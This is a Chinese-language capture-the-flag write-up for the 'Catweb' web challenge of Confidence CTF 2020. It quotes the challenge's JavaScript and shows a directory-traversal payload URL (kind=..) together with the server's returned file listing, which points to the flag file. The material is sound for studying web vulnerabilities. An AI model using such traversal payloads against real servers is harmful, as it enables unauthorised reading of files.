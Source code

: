 ```yaml
---
title: Confidence CTF 2020-Web
date: 2020-03-18 19:46:11
tags: CTF
---
```


#### Catweb

先看一下题目的js代码

```javascript
function getNewCats(kind) {
			$.getJSON('http://catweb.zajebistyc.tf/cats?kind='+kind, function(data) {
				if(data.status != 'ok')
				{
					return;
				}
				$('#cats_container').empty();
				cats = data.content;
				cats.forEach(function(cat) {
					var newDiv = document.createElement('div');
					newDiv.innerHTML = '<img style="max-width: 200px; max-height: 200px" src="static/'+kind+'/'+cat+'" />';
					$('#cats_container').append(newDiv);
				});
			});

		}
		$(document).ready(function() {
			$('#cat_select').change(function() {
				var kind = $(this).val();
				history.pushState({}, '', '?'+kind)
				getNewCats(kind);
			});
			var kind = window.location.search.substring(1);
			if(kind == "")
			{
				kind = 'black';
			}
			getNewCats(kind);
		});
```

在getNewCats函数中通过返回的json数据渲染div标签中的img图像，默认为黑色🐱，通过切换不同的颜色来渲染出不同🐱🐱的颜色。

很容易发现有目录穿越这个漏洞，并且可以通过目录穿越发现flag位于/templates/flag.txt

```
Payload:
http://catweb.zajebistyc.tf/cats?kind=..


返回结果：
{
status: "ok",
content: [
"prestart.sh",
"uwsgi.ini",
"main.py",
"templates",
"static",
"app.py"
]
}
```